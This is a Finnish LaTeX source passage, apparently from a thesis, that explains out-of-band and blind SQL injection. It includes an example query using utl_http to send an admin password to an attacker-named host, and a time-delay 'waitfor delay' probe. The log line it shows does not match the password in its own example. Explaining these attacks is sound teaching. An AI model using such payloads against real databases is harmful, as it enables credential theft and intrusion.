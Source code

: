 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	\subsubsection{Out-of-band injektio}
	Sen sijaan out-of-band injektiossa tuloste saadaan eri reittiä, kun hyökkäys on syötetty. Out-of-band injektiota voidaan hyödyntää, vaikka sovellus ei palauta käyttäjälle kyselyn tulosta. Tällainen tilanne voi esimerkiksi ilmetä, jos sovellus tallettaa tietokantaan käyttäjien selaintietoja. Selaintiedot saadaan HTTP-pyynnön "User-Agent"\space kentästä. Hyökkääjä voisi tällaisessa tapauksessa lähettää "User-Agent"\space kentässä haitallista koodia. Jotta hyökkääjä saisi vastauksen suoritetusta kyselystä, hän voi ohjata vastauksen esimerkiksi oman palvelimensa logeihin. Tämä onnistuu, mikäli sovellus saadaan suorittamaan esimerkiksi seuraavanlainen kysely: 
	
	\begin{lstlisting}[language=sql]
	utl_http('http://www.hyokkaajansivu.fi/injections/' || 
	SELECT password
	FROM User 
	WHERE username = 'admin'
	)
	\end{lstlisting}
	Oletetaan että käyttäjän admin salasana on "password123". Injektion onnistuessa tietokanta hakee ensin käyttäjän admin salasanan, jonka jälkeen se suorittaa HTTP-pyynnön osoitteeseen "http://hyokkaajansivu.fi/injections/password123". Tällöin hyökkääjän palvelimen logeissa näkyy seuraavanlainen merkintä:
	
	\begin{lstlisting}
	GET "/injections/admininpassword", 200
	\end{lstlisting}
	
	Sadeghianin ja kollegoiden artikkelin mukaan kyselyn tulos voidaan ohjata palvelimen lisäksi myös esimerkiksi hyökkääjän sähköpostiin.

	\subsubsection{Sokea injektio}
	Artikkelin mukaan sokeassa injektiossa hyökkääjä ei saa kyselyn palauttamaa tulosta selville mitään reittiä. Hyökkääjä voi päätellä hyökkäyksen onnistumisen esimerkiksi siitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-käskyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen \cite{regexp}. Hyökkääjä voi myös tarkkailla vaikuttaako hänen tekemänsä hyökkäykset sovelluksen toimintaan tai ulkoasuun jollain tapaa.
	
\end{document}
